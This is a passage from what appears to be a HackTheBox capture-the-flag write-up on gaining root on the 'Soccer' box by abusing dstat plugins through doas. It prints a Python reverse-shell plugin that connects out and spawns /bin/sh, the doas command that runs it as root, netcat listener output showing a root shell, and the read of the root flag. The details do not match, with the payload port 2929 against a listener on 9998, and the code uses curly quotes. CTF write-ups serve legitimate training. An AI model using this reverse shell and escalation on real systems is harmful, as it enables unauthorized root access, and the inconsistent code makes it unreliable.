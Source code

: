 if we see `/usr/share/dstat/`, we can see different plugins that dstat can use.

![soc-18](https://user-images.githubusercontent.com/87711310/217282101-e268c535-e29a-41fb-8b7f-bc4d2f096f8b.png)


All the plugins are written in python and with a prefix of `dstat_**`

So, then i decided to Create a python plugin called `dstat_exploit.py` in `/usr/local/share/dstat/` with below code

```python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect((“<your-IP>”,2929));

os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);

import pty; pty.spawn(“/bin/sh”)
```

Started a netcat listener on my machine.

Execute the following command to run the above file as root.

```
doas -u root /usr/bin/dstat --exploit
```

Once done, I went back to my netcat listener and I got back a shell.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Soccer]
└─$ nc -lvnp 9998
listening on [any] 9998 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.11.194] 54714
# whoami
whoami
root
```

Grabbing the root flag

```
# cat /root/root.txt
cat /root/root.txt
[REDACTED]
```
